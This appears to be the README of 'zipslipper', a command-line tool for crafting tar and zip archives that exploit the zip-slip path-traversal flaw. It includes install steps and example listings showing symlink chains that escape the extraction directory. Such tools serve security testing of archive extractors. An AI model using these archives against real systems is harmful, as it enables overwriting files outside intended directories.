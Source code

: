 # zipslipper
<a href="https://github.com/NodyHub/zipslipper/actions/workflows/golangci-lint.yml"><img src="https://github.com/NodyHub/zipslipper/actions/workflows/golangci-lint.yml/badge.svg" align="right" alt="golangci-lint"></a>
Create tar/zip archives that try to exploit zipslip vulnerability.

## CLI Tool

You can use this library on the command line with the `zipslipper` command.

### Installation

```cli
go install github.com/NodyHub/zipslipper@latest
```

### Manual Build and Installation

```cli
git clone git@github.com:NodyHub/zipslipper.git
cd zipslipper
make
make install
```

## Usage

Basic usage on cli:

```shell
% zipslipper -h
Usage: zipslipper <input> <relative-path> <output-file> [flags]

A utility to build tar/zip archives that performs a zipslip attack.

Arguments:
  <input>            Input file.
  <relative-path>    Relative extraction path.
  <output-file>      Output file.

Flags:
  -h, --help                  Show context-sensitive help.
  -t, --archive-type="zip"    Archive type. (tar, zip)
  -v, --verbose               Verbose logging.
  -V, --version               Print release version information.
```

## Usage example

### Zip

```shell
(main[2]) ~/git/zipslipper% zipslipper go.mod ../../foo/bar/go.mod test.zip
(main[2]) ~/git/zipslipper% unzip -l test.zip
Archive:  test.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  09-20-2024 11:01   sub/
        3  09-20-2024 11:01   sub/root
        3  09-20-2024 11:01   sub/root/outside
        3  09-20-2024 11:01   sub/root/outside/0
        3  09-20-2024 11:01   sub/root/outside/0/1
        0  09-20-2024 11:01   sub/root/outside/0/1/foo/
        0  09-20-2024 11:01   sub/root/outside/0/1/foo/bar/
      103  09-20-2024 08:39   sub/root/outside/0/1/foo/bar/go.mod
---------                     -------
      115                     8 files
```

### Tar

```shell
(main[2]) ~/git/zipslipper% zipslipper -t tar go.mod ../../foo/bar/go.mod test.tar
(main[2]) ~/git/zipslipper% tar ztvf test.tar
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0 -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1 -> ../
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1/foo/
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1/foo/bar/
-rw-r--r--  0 jan    staff     103 20 Sep 08:39 sub/root/outside/0/1/foo/bar/go.mod
```
